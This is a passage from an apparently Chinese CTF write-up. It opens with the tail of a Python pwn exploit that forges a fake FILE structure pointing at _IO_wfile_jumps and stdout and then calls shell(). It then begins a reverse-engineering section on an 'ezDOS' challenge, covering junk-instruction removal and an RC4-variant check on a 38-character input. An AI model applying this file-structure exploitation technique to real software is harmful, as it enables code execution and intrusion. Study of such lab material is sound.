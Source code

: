 ```python
    0xa8: p64(rsp),
    0xd8: p64(_IO_wfile_jumps + 0x10),
    0xe0: p64(stdout-8),
}, filler=b"\x00")


add(0x101, fake_io)
shell()
```



## RE

### ezDOS

程序中间出现的花指令都直接nop去除，然后Apply patch到程序。

![](/images/1742731823755-b823cf34-aab4-4fbe-bf7e-f53a4aaa3497.png)

程序要求输入38长度字符串，然后进行一系列变种类RC4算法加密，然后与0x141地址的38字节数据进行比对。

![](/images/1742732096513-faa2f920-70f8-4a36-93df-91f224f7c6d0.png)
